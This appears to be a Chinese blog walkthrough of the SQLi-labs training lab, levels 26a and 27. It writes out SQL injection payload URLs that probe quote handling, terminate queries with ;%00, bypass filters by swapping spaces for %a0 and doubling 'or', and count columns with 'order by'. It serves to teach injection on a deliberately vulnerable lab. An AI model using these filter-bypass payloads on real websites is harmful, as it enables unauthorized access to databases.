 **查找注入点**<br />http://www.web.com/sql/Less-26a/?id=1'<br />没有回显<br />![](https://img-blog.csdnimg.cn/20200722203151714.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=zokt8&originHeight=226&originWidth=573&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
http://www.web.com/sql/Less-26a/?id=1'--+<br />通过提示可以看到--+被注释掉了<br />![](https://img-blog.csdnimg.cn/20200722203210869.png#crop=0&crop=0&crop=1&crop=1&id=C6KXU&originHeight=61&originWidth=602&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
http://www.web.com/sql/Less-26a/?id=1';%00<br />还是没有回显<br />![](https://img-blog.csdnimg.cn/20200722203225611.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=u3UjJ&originHeight=258&originWidth=592&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
http://www.web.com/sql/Less-26a/?id=1'）<br />依然没有数据回显<br />![](https://img-blog.csdnimg.cn/20200722203225611.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Sf7YP&originHeight=258&originWidth=592&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
http://www.web.com/sql/Less-26a/?id=1');%00<br />有数据回显说明存在注入<br />![](https://img-blog.csdnimg.cn/20200722203239776.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=wzkQa&originHeight=261&originWidth=527&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**以下步骤于Sqli-labs-Less-25相同**<br />需要注意的是在Sqli-labs-Less-26a中是?id=')在Sqli-labs-Less-25中是?id='<br />**并且注意将空格换为%a0和or进行双写**<br />而且在Sqli-labs-Less-26a中不能像Sqli-labs-Less-26使用报错注入，因为没有回显错误数据。


# Sqli-labs-Less-27![](https://img-blog.csdnimg.cn/20200723111205561.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=bWBqG&originHeight=354&originWidth=1078&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查找注入点**<br />http://www.web.com/sql/Less-27/?id=1'<br />报错<br />![](https://img-blog.csdnimg.cn/20200722205039899.png#crop=0&crop=0&crop=1&crop=1&id=CuhiS&originHeight=146&originWidth=929&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
依然使用;%00进行注释<br />![](https://img-blog.csdnimg.cn/20200722205109464.png#crop=0&crop=0&crop=1&crop=1&id=mcpCI&originHeight=160&originWidth=552&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
成功，存在注入

**判断列数**<br />http://www.web.com/sql/Less-27/?id=1' order by 3;%00<br />出错<br />![](https://img-blog.csdnimg.cn/20200722205255580.png#crop=0&crop=0&crop=1&crop=1&id=lYfDv&originHeight=154&originWidth=938&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**使用%a0代替空格（这里order by正常不用将or双写）**<br />http://www.web.com/sql/Less-27/?id=1'%a0order%a0by%a03;%00<br />成功说明有三列<br />![](https://img-blog.csdnimg.cn/20200722205458367.png#crop=0&crop=0&crop=1&crop=1&id=ksOPV&originHeight=173&originWidth=530&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
